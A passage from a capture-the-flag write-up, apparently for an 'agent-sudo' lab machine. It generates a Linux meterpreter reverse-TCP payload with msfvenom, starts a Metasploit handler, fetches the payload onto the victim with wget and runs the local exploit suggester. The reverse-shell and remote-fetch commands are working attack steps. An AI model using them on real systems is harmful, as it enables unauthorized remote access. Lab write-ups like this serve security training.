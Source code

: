 Anyway, this seems a wrong answer.

We try with `meterpreter`

```bash
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.8.100.14 LPORT=5555 -f elf > /tmp/shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
```

```bash
[*] Starting persistent handler(s)...
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 5555
lport => 5555
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.8.100.14:5555
```

Meanwhile, on victim machine:

```bash
james@agent-sudo:~$ wget http://10.8.100.14:8888/shell.elf
--2023-07-10 15:30:13--  http://10.8.100.14:8888/shell.elf
Connecting to 10.8.100.14:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 207 [application/octet-stream]
Saving to: ‘shell.elf’

shell.elf                                       100%[=====================================================================================================>]     207  --.-KB/s    in 0s

2023-07-10 15:30:13 (12.8 MB/s) - ‘shell.elf’ saved [207/207]

james@agent-sudo:~$ chmod +x shell.elf
```

```bash
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(multi/handler) > use 0
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):
```
